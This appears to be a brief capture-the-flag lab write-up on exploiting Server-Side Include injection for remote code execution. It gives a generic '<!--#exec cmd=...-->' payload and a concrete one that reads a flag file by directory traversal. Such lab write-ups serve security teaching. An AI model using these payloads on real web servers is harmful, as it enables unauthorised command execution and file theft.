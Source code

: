 # SSI Injection

Exploit the SSI Injection vulnerability to obtain RCE and read the flag.

This exercise is pretty straightfoward, since we just have to adapt the exec command on the application.

```html
<!--#exec cmd="UNIX command" -->
```

<figure><img src="../../../.gitbook/assets/image (155).png" alt=""><figcaption></figcaption></figure>

```
<!--#exec cmd="cat ../../../flag.txt" -->
```

After looking into the directories we managed to get the flag with the command above!
